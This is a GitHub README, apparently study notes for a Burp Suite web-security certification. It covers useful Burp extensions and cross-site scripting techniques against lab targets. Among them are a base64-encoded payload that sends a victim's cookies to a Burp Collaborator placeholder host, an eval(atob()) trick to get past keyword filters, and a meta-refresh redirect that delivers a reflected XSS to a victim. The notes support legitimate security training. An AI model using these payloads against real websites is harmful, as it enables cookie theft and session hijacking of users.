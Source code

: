 # <img src="https://icons.iconarchive.com/icons/goescat/macaron/1024/burp-suite-icon.png" width=25> BSCP Methodology

## Table of Contents
* [Useful Burp extensions](https://github.com/dhmosfunk/BSCP/blob/main/README.md#useful-burp-extensions-some-of-them-requires-burpsuite-pro)
* [Cross-Site Scripting Section](https://github.com/dhmosfunk/BSCP/blob/main/README.md#cross-site-scripting-section)
   * [Bypass restrictions method 1](https://github.com/dhmosfunk/BSCP/blob/main/README.md#bypass-restrictions-method-1)
* [Exploit Server Section](https://github.com/dhmosfunk/BSCP/blob/main/README.md#exploit-server-section)
  * Send exploit to victim (Reflected XSS in search bar)
* [SQL Injection Section](https://github.com/dhmosfunk/BSCP/blob/main/README.md#sql-injection-section)

## Useful Burp extensions (some of them requires burpsuite pro)
- Hackvertor
- Copy As Python-Requests
- Java Deserialization Scanner | [yserial.jar](https://github.com/frohoff/ysoserial) for manual exploitation<b>(prefer because sometime this extension it doesn't work as it should)</b>
- HTTP Request Smuggler


## Cross-Site Scripting Section
You can find an injection point with some payloads from this repository - [PayloadsAllTheThings XSS Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

### Bypass restrictions method 1
Sometimes we found a XSS injection point but with some keyword restrictions, so we have to bypass these restrictions with some techniques like below.
1. Generate the base64 payload

```bash
echo -n "document.location = 'http://<BURP-COLLABORATOR.NET>/?cookie='+document.cookie" |base64
```

2. Insert the base64 payload into atob function
```javascript
eval(atob("BASE64-PAYLOAD"))
<script>eval(atob("BASE64-PAYLOAD"))</script>
```

## Exploit Server Section
#### Send exploit to victim (Reflected XSS in search bar)
With <b>`<meta>`</b> html tag we can redirect the "victim" to our javascript injected search query.
```html
<meta http-equiv="refresh" content='0; URL=https://<LAB_URL>/?search=injection_here' />

<!-- ALL TOGETHER BELOW-->
<meta http-equiv="refresh" content='0; URL=https://<LAB_URL>/?SearchTerm=aa","fd8xsw5l":eval(atob("BASE64-PAYLOAD"))}//' />
```

## SQL Injection Section
